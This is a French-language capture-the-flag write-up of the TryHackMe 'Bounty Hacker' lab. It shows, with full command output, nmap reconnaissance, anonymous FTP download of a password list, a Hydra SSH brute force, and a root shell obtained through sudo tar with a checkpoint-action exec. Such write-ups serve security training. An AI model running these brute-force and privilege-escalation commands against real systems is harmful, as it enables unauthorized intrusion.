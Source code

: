 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Linux, FTP, Force brute]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/cowboyhacker>

![Logo box](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur {% include dictionary.html word="FTP" %}](#analyse-du-serveur--include-dictionaryhtml-wordftp-)
* [Accéder à la machine](#accéder-à-la-machine)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -A -T4 bountyhacker.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 15:58 CEST
Nmap scan report for bountyhacker.thm (10.10.35.165)
Host is up (0.032s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Linux 3.7 (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.80 ms 10.9.0.1
2   31.82 ms bountyhacker.thm (10.10.35.165)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.88 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique la présence d'un serveur {% include dictionary.html word="FTP" %} sur le port 21 accessible anonymement, un serveur {% include dictionary.html word="SSH" %} sur le port 22, et un serveur web Apache sur le port 80.

Le serveur web sert à raconter l'histoire de notre personnage qui semble avoir été quelque peu vantard face aux personnages de l'anime [Cowboy Bebop](https://fr.wikipedia.org/wiki/Cowboy_Bebop) et qu'il va devoir faire ses preuves.

## Analyse du serveur {% include dictionary.html word="FTP" %}

Nous récupérons les 2 documents présents sur le serveur :

```bash
ftp anonymous@bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41895|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************************|   418        5.86 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.98 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************************|    68        0.65 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.49 KiB/s)
```

Le fichier `locks.txt` semble être une liste de mots de passe, et le fichier `task.txt` un plan d'action (machiavélique ?).

```terminal
cat task.txt                   
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Accéder à la machine

Le fichier `task.txt` contient le nom `lin` qui pourrait être un utilisateur du serveur. Nous allons tenter de trouver un mot de passe correspondant grâce à l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %}.

```bash
hydra -l 'lin' -P locks.txt bountyhacker.thm ssh                        
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 16:27:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: Re[...expurgé...]t3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 16:27:37
```

Nous obtenons le mot de passe de l'utilisateur `lin` nous permettant de nous connecter en {% include dictionary.html word="SSH" %} sur le serveur.

Dès que nous nous connectons à la machine avec les identifiants trouvés, nous arrivons sur le bureau de l'utilisateur, contenant le flag utilisateur :

```bash
ls
user.txt

cat user.txt
THM{[...expurgé...]}
```

## Élévation de privilèges

L'utilisateur `lin` est autorisé à utiliser la commande `/bin/tar` en élevant ses privilèges avec {% include dictionary.html word="sudo" %}.

```bash
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) nous trouvons le moyen d'abuser de ce privilège pour devenir `root` sur la machine.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous sommes root, nous pouvons récupérer le flag root.

```bash
cd /root

ls
root.txt

cat root.txt
THM{[...expurgé...]}
```

